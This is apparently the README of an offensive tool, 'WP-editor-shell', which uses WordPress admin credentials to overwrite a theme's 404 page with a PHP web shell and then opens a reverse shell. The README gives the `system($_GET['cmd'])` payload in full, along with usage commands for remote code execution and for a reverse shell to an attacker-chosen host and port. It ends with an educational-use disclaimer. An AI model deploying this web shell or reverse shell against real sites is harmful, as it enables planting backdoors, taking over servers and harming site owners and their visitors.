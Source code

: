 # WP-editor-shell
Python script to automaticly get a reverse shell from WP theme editor page 

## Description
This script was created to simplify the creation of a reverse shell from a Wordpress dashboard editor page. It allows the user to update the page 404 of a theme and replace the content with `<?php system($_GET["cmd"]);?>` which then allow command execution on the page. 

## Usage 
Usage to upload the PHP payload and gain RCE on the site 
```
python wp-editor-shell.py --url http://127.0.0.1/wordpress -u admin -p admin
```

Usage to get a reverse shell

To be able to get a reverse shell you first need to open a listener on your attack machine. 

```
python wp-editor-shell.py --url http://127.0.0.1/wordpress -u admin -p admin --lhost 172.0.0.1 --lport 80
```

## Help 

```
-h, --help       Display help message

-u, --username   Username to use for wordpress Dasboard

-p, --password   Password to use for wordpress Dasboard

--url            Address of the target website

--lhost          Ip address to use for the reverse shell

--lport          Local port to use for the reverse shell
```
## Disclaimer 

This script is meant for educational purposes only. Please use it responsibly and ensure you have proper authorization when performing security assessments. It's important to respect ethical guidelines and legality in your actions.

